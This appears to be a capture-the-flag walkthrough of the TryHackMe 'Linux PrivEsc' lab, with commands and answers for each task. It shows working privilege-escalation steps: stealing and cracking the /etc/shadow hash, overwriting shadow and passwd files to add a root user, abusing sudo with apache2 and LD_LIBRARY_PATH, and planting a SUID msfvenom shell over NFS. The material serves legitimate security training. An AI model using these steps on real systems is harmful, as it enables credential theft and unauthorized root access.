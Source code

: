 # Linux PrivEsc

{% embed url="https://tryhackme.com/room/linuxprivesc" %}
https://tryhackme.com/room/linuxprivesc
{% endembed %}

## Task 1 Deploy the Vulnerable Debian VM <a href="#title" id="title"></a>

#### Deploy the machine and login to the "user" account using SSH.

```bash
echo 'HostkeyAlgorithms +ssh-rsa' >> .ssh/config
echo 'PubkeyAcceptedAlgorithms +ssh-rsa' >> .ssh/config
```

![](<../../.gitbook/assets/Screenshot from 2022-04-18 04-40-03.png>)

#### Run the "id" command. What is the result?

```
ssh user@10.10.177.44 id
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-34-25.png>)

## :space\_invader: Service Exploits

### #1&#x20;

```
```

## :busts\_in\_silhouette: Weak File Permissions - Readable /etc/shadow

### **#1 What is the root user's password hash?**

```
scp user@10.10.177.44:/etc/shadow .
cut -d ':' -f 2 shadow | head -1 > sha512.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-43-11.png>)

### #2 **What hashing algorithm was used to produce the root user's password hash?**

```
sha512crypt
```

### #3 What is the root user's password?

```
hashcat -a 0 -m 1800 sha512.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-43-24.png>)

## :busts\_in\_silhouette: Weak File Permissions - Writable /etc/shadow

```bash
scp user@10.10.177.44:/etc/shadow .
openssl passwd -6 password1234
vim shadow
scp shadow user@10.10.177.44:/etc/shadow
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 09-57-34.png>)

## :key: Weak File Permissions - Writable /etc/passwd

### #1 **Run the "id" command as the newroot user. What is the result?**

```bash
scp user@10.10.177.44:/etc/passwd .
openssl passwd password
vim passwd
scp passwd user@10.10.177.44:/etc/passwd
ssh newroot@10.10.177.44 id
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-08-22.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-12-37.png>)

## :man\_superhero: Sudo - Shell Escape Sequences

### #1 **How many programs is "user" allowed to run via sudo?**&#x20;

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-17-35.png>)

### **#2 One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?**

```
apache2
```

### #3 **Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.**

```bash
sudo /usr/bin/apache2 -f /etc/shadow
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-23-33.png>)

## :man\_superhero: Sudo - Environment Variables

```
ldd /usr/sbin/apache2
gcc -o /tmp/libcrypt.so.1 -shared -fPIC tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-35-54.png>)

```
LD_LIBRARY_PATH=/tmp ldd /usr/sbin/apache2
```

![](<../../.gitbook/assets/Screenshot from 2020-09-01 10-36-49.png>)

## :file\_cabinet: NFS

```
sudo su -
mkdir -p /tmp/nfs
mount -o rw,vers=3 10.10.192.74:/tmp/ /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +sx /tmp/nfs/shell.elf
```

```
cat /etc/exports
/tmp/shell.elf
```

![](<../../.gitbook/assets/Screenshot from 2022-04-18 04-54-35.png>) ![](<../../.gitbook/assets/Screenshot from 2022-04-18 04-54-45.png>) ![](<../../.gitbook/assets/Screenshot from 2022-04-18 04-54-55.png>) ![](<../../.gitbook/assets/Screenshot from 2022-04-18 04-55-11.png>)

\#1&#x20;

## :link: Support Material

{% embed url="https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow" %}

{% embed url="https://gtfobins.github.io/" %}

